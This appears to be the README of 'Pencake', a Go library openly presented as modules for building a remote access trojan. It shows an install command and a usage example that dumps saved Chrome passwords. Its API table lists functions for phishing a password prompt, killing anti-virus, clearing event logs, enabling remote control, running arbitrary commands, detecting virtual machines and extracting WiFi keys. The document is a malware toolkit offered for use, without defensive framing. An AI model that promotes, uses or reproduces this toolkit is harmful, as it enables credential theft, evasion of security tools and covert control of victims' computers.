 # Pencake
Modules you need for building a rat!

### Example
Getting all your chrome passwords
```go
package main

import (
	"fmt"
	"github.com/shouc/pencake"
)

func main()  {
	fmt.Println(pencake.ChromePassword())
}

/*
Ouput:
[{https://sso.stupid.edu shou@stupid.edu password} ...]
*/
```

### Getting Started

```bash
go get -u github.com/shouc/pencake
```

### Usage
| Function Name         | Description                              | Returns                      | Requirement                     | OS              |
| --------------------- | ---------------------------------------- | ---------------------------- | ------------------------------- | --------------- |
| `AskPass()`             | Ask user about their password            | `string` (user input)          | /                               | macOS           |
| `ChromePassword()`      | Dump user's saved password in Chrome     | `pencake.ChromePasswordStruct` | root privilege on macOS & Linux | All             |
| `ClearLogs()`           | Clear event logs                         | `bool` (whether successful)    | administrator                   | Windows         |
| `DisableRemote()`       | Stop either SSH or RDP                   | /                            | root or administrator           | All             |
| `Environment()`         | Get all environment variables            | `pencake.EnvironmentStruct`    | /                               | All             |
| `Exec(command string)`  | Execute bash code                        | `string` (output)              | /                               | All             |
| `KillAv()`              | Stop all anti-virus services             | `string` (AV name)             | administrator                   | Windows         |
| `Popup(message string)` | Pop up a message box                     | /                            | /                               | macOS / Windows |
| `RemoteControl()`       | Start either RDP or SSH                  | /                            | root or administrator           | macOS / Windows |
| `Restart()`             | Restart system                           | /                            | depend on system                | All             |
| `Shutdown()`            | Shutdown system                          | /                            | depend on system                | All             |
| `Sleep()`               | Sleep system                             | /                            | /                               | All             |
| `SysInfo()`             | Get system information                   | `pencake.SysInfoStruct`        | /                               | All             |
| `Unsleep()`             | Exit sleeping                            | /                            | /                               | All             |
| `VmScan()`              | Scan whether system is running on the VM | `string` (VM name)             | /                               | All             |
| `WifiKey()`             | Get all saved WiFi names and passwords   | `pencake.WifiKeyStruct`        | depend on system                | All             |


### Data Structure

`pencake.ChromePasswordStruct`

```go
type ChromePasswordStruct struct {
	Url      string
	UserName string
	Password string
}
```

`pencake.EnvironmentStruct`

```go
type EnvironmentStruct struct {
	Key   string
	Value string
}
```

`pencake.SysInfoStruct`

```go
type SysInfoStruct struct {
	Os       string
    Arch     string
    UserName string
    Name     string
    IsAdmin  bool
    PublicIp string
}
```

`pencake.WifiKeyStruct`

```go
type WifiKeyStruct struct {
	Name     string
    Password string
}
```